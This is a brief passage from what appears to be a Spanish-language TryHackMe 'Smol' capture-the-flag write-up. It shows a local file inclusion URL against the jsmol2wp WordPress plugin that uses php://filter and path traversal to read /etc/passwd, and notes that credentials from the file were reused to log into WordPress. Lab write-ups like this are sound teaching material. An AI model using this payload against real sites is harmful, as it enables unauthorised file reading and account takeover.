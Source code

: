 ![](../assets/img/smol-tryhackme-writeup/6.png)

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../../../../../../../../etc/passwd
```

Reutilizamos las credenciales del fichero y logramos acceder al WordPress: